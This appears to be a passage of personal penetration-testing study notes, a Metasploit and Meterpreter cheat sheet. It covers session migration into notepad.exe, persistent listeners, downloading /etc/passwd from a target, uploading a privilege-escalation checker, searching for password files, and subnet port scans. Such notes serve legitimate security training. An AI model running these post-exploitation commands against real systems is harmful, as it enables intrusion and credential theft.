 - Configure `AutoRunScript` option to automatically execute a module after a session was created
	- Use the _post/windows/manage/migrate_ module
		- Automatically launch a background _notepad.exe_ process and migrate to it
- Set ExitOnSession to _false_ to ensure that the listener keeps accepting new connections after a session is created.
- run -z -j
	- Run it as a job in the background

#File_Sharing 

## File Sharing

Download file from the target system to the local directory E.g., /etc/passwd
```meterpreter
download /etc/passwd
```

Upload file on the target system
```meterpreter
upload /usr/bin/unix-privesc-check /tmp/
```
- Upload `unix-privesc-check` to `/tmp` on the target system
- If our target runs the Windows operating system, we need to escape the backslashes in the destination path with backslashes like `\\`

#File_Searching 

## File Searching

Search for a file E.g., passwords
```meterpreter
search -f *passwords*
```

#Port_Scanning 

## Port Scanning

Using `db_nmap` to scan a host
```msfconsole
db_nmap
db_nmap -A 192.168.69.123
```

Using `auxiliary/scanner/portscan/tcp` to port scan the whole network
```msfconsole
use auxiliary/scanner/portscan/tcp
set RHOSTS 172.168.69.0/24
set PORTS 445,3389
run
```

#SMB_Enumeration #Vulnerability_Scanning 

## SMB Scanning
